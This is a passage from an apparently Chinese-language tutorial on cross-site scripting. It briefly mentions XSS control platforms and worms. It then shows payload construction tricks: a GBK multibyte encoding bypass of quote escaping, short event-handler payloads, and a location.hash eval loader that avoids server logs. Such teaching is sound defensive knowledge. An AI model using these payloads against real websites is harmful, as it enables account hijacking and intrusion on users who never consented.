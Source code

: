 每个被攻击的用户都会出现再后台，后台控制者可以通过控制这些浏览器的行为，并且可以通过向这些用户发送命令。

## XSS-Proxy

是一个轻量级的攻击平台，通过嵌套`iframe`的方式可以远程控制被XSS攻击的浏览器。

# XSS 蠕虫

利用上面的方法，就可以使用存储性来起到传播XSS代码，从而传播蠕虫了。

# XSS构造技巧

## 利用字符编码

百度搜藏曾经有这样一个XSS漏洞，百度在一个&lt;script&gt;标签中输出了一个变量，其中转义了双引号：
<pre class="lang:js decode:true">var redirectURL = "\";alert(/xss/);";</pre>
一般来说，这样是没有XSS漏洞的，因为变量处于双引号内，系统转义了双引号导致变量无法被`escape`。

但是百度返回的页面是GBK/GB2312编码的，因此%c1\这个两个字符组合在一起会成为一个unicode字符，在firefox下会认为是一个字符，所以构造：
<pre class="lang:js decode:true">%c1";alert(/xss/);//</pre>
这个时候firefox就会把前面两个结合，从而执行了新的unicode字符，%c1把转移符号\吃掉了，从而绕过了系统的安全检查，成功实施了XSS攻击。

## 绕过长度限制

很多时候，产生XSS的地方都会有变量的长度限制，这个限制往往是服务器逻辑引发的。假设下面这个代码存在一个XSS漏洞：
<pre class="lang:php decode:true">    &lt;input type="text" value="$var" /&gt;</pre>
服务器端如果对输出变量`$var`做了严格的长度限制，那么攻击者可以这样构造XSS：
<pre class="lang:js decode:true">&gt;&lt;script&gt;alert(/xss/)&lt;/script&gt;</pre>
希望达到的效果是
<pre class="lang:php decode:true">&lt;input type="text" value=""&gt;&lt;script&gt;alert(/xss/)&lt;/script&gt; "/&gt;</pre>
假设长度限制为20个字节，那么这段XSS会被切割为：
<pre class="lang:php decode:true">    $var = '"&gt;&lt;script&gt;alert(/xss';</pre>
这样连一个完整的函数都没法写完，XSS攻击无法成功。但是攻击者仍然可以使用事件来缩短所需要的字节数：
<pre class="lang:php decode:true">    $var = '"onclick=alert(1) //';</pre>
当用户点击了input框之后，`alert()`就会被执行。

但是利用事件能够缩短的字节数是有限的。最好的方法还是把XSS Payload写到别处，再通过简短的代码加载这段XSS Payload。

最常用的方法就是`location.hash`。而且根据HTTP协议，`location.hash`的内容并不会在HTTP包中发送，所以服务器端的Web日志并不会记录下`location.hash`的内容。
<pre class="lang:default decode:true">    $var = '"onclick="eval(location.hash.substr(1))';</pre>
总共是40个字节。输出的HTML就变成了：
<pre class="lang:php decode:true">&lt;input type="text" value="" onclick="eval(location.hash.substr(1))" /&gt;</pre>
![XSS on hash](/wp-content/uploads/2016/05/XSS-on-hash.png)
